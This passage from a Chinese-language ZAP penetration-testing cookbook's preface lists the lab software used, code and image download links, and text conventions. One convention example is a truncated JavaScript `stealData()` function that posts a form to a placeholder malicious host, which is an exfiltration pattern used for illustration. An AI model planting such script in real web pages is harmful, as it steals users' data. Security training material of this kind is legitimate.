 | **本书中涵盖的软件/硬件** | **操作系统要求** |
| --- | --- |
| Java | Windows、macOS 或 Linux |
| Docker Desktop/Docker Compose | Windows、macOS 或 Linux |
| OWASP Juice-Shop | Windows、macOS、Linux 或 Docker |
| Mutillidae II | Windows、macOS 或 Linux |
| Jenkins | Windows、macOS、Linux 或 Docker |

**如果你使用的是本书的数字版，我们建议你自己输入代码，或者从本书的 GitHub 仓库获取代码（下一节有链接）。这样做有助于避免与复制粘贴代码相关的潜在错误。**

*此外，使用 ZAP，熟能生巧。ZAP 是一款旨在帮助组织识别和修复其 Web 应用程序漏洞的工具，在 Web 世界中，开发人员设计、构建和实现的各种方法和组合是无穷无尽的。通过实践，了解 Web 应用程序是如何构建的，只会让你成为一个更强大的 Web 应用程序渗透测试员* *使用 ZAP*。

# 下载示例代码文件

你可以从 GitHub 下载本书的示例代码文件，地址是：[`github.com/PacktPublishing/Zed-Attack-Proxy-Cookbook`](https://github.com/PacktPublishing/Zed-Attack-Proxy-Cookbook)。如果代码有更新，将会在 GitHub 仓库中进行更新。

我们还提供了其他来自我们丰富目录的代码捆绑包，包含书籍和视频，地址是：[`github.com/PacktPublishing/`](https://github.com/PacktPublishing/)。快来看看吧！

# 下载彩色图像

我们还提供了一份 PDF 文件，其中包含本书中使用的截图和图表的彩色图像。你可以在这里下载：[`packt.link/oBhpt`](https://packt.link/oBhpt)。

# 使用的约定

本书中使用了若干文本约定。

**文本中的代码**：表示文本中的代码字词、数据库表名、文件夹名称、文件名、文件扩展名、路径名、虚拟网址、用户输入和 Twitter 账户名。以下是一个示例：“将下载的 `WebStorm-10*.dmg` 磁盘映像文件挂载为系统中的另一个磁盘。”

一段代码的设置如下：

```
 pipeline {
   agent any
   parameters {
          choice(name: "ZAP_SCAN", choices: ["zap-baseline. py", "zap-full-scan.py"], description: "Parameter to choose type of ZAP scan")
string(name: "ENTER_
```

当我们希望引起你对代码块中特定部分的注意时，相关的行或项目会以粗体显示：

```
 <script>
    function stealData() {
       var form = document.createElement("form");
       form.setAttribute("method", "post");
       form.setAttribute("action", "http://malicious-site. com");
```
